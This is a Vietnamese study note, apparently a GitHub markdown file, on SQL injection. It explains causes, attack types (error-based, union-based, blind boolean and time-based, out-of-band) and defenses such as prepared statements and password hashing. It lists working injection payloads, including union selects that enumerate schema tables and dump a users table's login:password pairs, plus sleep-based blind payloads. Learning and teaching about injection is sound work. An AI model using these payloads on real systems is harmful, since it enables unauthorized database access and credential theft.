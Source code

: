 # Nguyên nhân SQL Injection / Bao nhiêu loại SQL i
# Thực hiện tấn công các loại SQL i
# SQL i có thể gây ra các loại tấn công nào

#SQLi là gì:
- Là 1 lỗ hổng web, cho phép kẻ tấn công có thể can thiệp vào các truy vấn mà ứng dụng thực hiện với csdl của nó. kẻ tấn công có thể thay đổi sửa xóa dữ liệu.  
 
# Nguyên nhân dẫn đến SQL injection: 
+ Do dùng câu truy vấn nối chuỗi
+ Không thực hiện kiểm tra đầu vào
+ Hiển thị thông báo lỗi chứa dữ liệu nhạy cảm

# các dạng tấn công SQL

# Có 3 loại SQL injection: 
+ In-band SQLi (Classic) : Tấn công và thu thập kết quả trực tiếp trên cùng 1 kênh liên lạc. 
    - Error-base SQLi: thực hiện các hành động làm csdl tạo ra thông báo lỗi, dùng dữ liệu được cung cấp bởi các thông báo lỗi để thu thập thông tin về cấu trúc dữ liệu. -> lấy các thuộc tính của của csdl. 
    ' or 1=1-- 
    * ' or 1=1 group by concat_WS('-',version(),floor(rand(0)*2)) having min(0) -- 

    - Union-based SQLi: Sử dụng toán tử UNION SQL để kết hợp nhiều câu lệnh được tạo bởi csdl, kết quả trả về như 1 lần của http response
    # ' order by 1,2,3... -- 
    # ' uinon select 1,2,3,4,5...--
    # ' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()-- 
    # ' union select column_name from information_schema.columns where table_name='',..-- 
    # ' union select concat()

-Numberic
	- order by  1,2,3,4,5
	- union select 1,2,sql,4... from sqlite_master--
	- union select * from table_name-- 
- routed:
	' union select ' union select 1,2,3 -- - -- -
	' union select ' union select current_user(),@@version -- - -- - 
	' union select ' union  select 1,(select group_concat(login, ':' ,password) from users) -- -
	

+ Inferential SQLi (Blind): Cố gắng xây dựng lại cấu trúc db = việc gửi payloads 
    - Blind-Boolean-based: Gửi truy vấn sql đến db, làm ứng dụng trả lại kết quả đúng hay sai. Dựa trên kq, http request sẽ sửa đổi hoặc ko. 
    - Time-based Blind SQLi: Gửi 1 truy vấn SQL -> db, làm cho db đợi, xem từ tg db cần để phản hồi:  SLEEP() and BENCHMARK(), ' and id=sleep(5) ; -- , ' and id=if(LEFT(VERSION(),2)='10',SLEEP(2),1) ; --
+ Out-of-band: Phụ thuộc vào khả năng server thực hiện các request DNS hoặc HTTP để chuyển dl cho kẻ tấn công.
- Cách phòng chống
+ Parameterized Statements: Sử dụng đảm bảo dữ liệu truyền vào đã được đảm bảo, sẽ ko gây hại, bằng cách sử dụng prepared statements thay vì nối chuỗi trong truy vấn.
+ Lọc đầu vào 1 cách chặt chẽ
+ Mã hóa các dữ liệu quan trọng
+ Không thông báo lỗi phía máy khách
+ Password Hashing: các ứng dụng nên lưu mk ng dùng dưới dạng mã băm mạnh, 1 chiều. Làm giảm nguy cơ bị người dùng đánh cắp thông tin đăng nhập hoặc mạo danh người dùng khác. 


